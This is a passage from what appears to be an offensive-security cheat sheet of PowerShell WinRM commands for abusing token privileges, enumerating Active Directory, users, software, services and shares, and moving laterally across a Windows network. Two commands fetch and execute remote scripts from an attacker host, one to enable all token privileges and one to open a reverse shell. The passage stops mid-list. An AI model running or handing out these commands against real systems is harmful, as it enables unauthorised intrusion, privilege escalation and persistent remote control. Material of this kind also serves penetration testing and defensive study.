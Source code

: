 3. **Abusing Token Privileges**: Manipulates token privileges on the remote system to gain higher-level access.
    ```powershell
    Invoke-Command -ComputerName <target_ip> -ScriptBlock { IEX (New-Object Net.WebClient).DownloadString('http://<attack_ip>/Invoke-TokenManipulation.ps1'); Invoke-TokenManipulation -EnableAllPrivileges } -Credential <username>
    ```

#### Internal Reconnaissance

1. **Enumerating Active Directory Information**: Enumerates Active Directory domain controllers from the remote system.
    ```powershell
    Invoke-Command -ComputerName <target_ip> -ScriptBlock { Get-ADDomainController -Filter * } -Credential <username>
    ```
2. **Listing Logged-In Users**: Lists all users currently logged in to the remote system.
    ```powershell
    Invoke-Command -ComputerName <target_ip> -ScriptBlock { query user } -Credential <username>
    ```
3. **Enumerating Installed Software**: Retrieves a list of installed software on the remote system.
    ```powershell
    Invoke-Command -ComputerName <target_ip> -ScriptBlock { Get-WmiObject -Class Win32_Product } -Credential <username>
    ```
4. **Identifying Running Services**: Lists all running services on the remote system.
    ```powershell
    Invoke-Command -ComputerName <target_ip> -ScriptBlock { Get-Service } -Credential <username>
    ```
5. **Enumerating Network Shares**: Lists network shares available on the remote system.
    ```powershell
    Invoke-Command -ComputerName <target_ip> -ScriptBlock { Get-SmbShare } -Credential <username>
    ```

#### Lateral Movement, Pivoting, and Tunneling

1. **Moving Laterally via WinRM**: Executes a command on a secondary remote system from an already compromised system using nested WinRM commands.
    ```powershell
    Invoke-Command -ComputerName <target_ip1> -ScriptBlock { Invoke-Command -ComputerName <target_ip2> -ScriptBlock { Get-Process } -Credential <username> } -Credential <username>
    ```
2. **Creating a WinRM Pivot Point**: Ensures that WinRM is running on the target system to use it as a pivot point for further movement.
    ```powershell
    Invoke-Command -ComputerName <target_ip> -ScriptBlock { Start-Service winrm } -Credential <username>
    ```
3. **Tunneling Through WinRM**: Establishes an SSH tunnel through WinRM to forward traffic securely.
    ```powershell
    Invoke-Command -ComputerName <target_ip> -ScriptBlock { ssh -L <local_port>:<target_ip>:5985 user@<target_ip> } -Credential <username>
    ```
4. **Establishing Reverse Shell via WinRM**: Executes a reverse shell on the remote system to establish a persistent connection back to the attacker's machine.
    ```powershell
    Invoke-Command -ComputerName <target_ip> -ScriptBlock { IEX (New-Object Net.WebClient).DownloadString('http://<attack_ip>/reverse_shell.ps1') } -Credential <username>
    ```
5. **Executing Multi-Hop Commands**: Chains multiple WinRM sessions to move laterally across a network, executing commands on multiple systems.
    ```powershell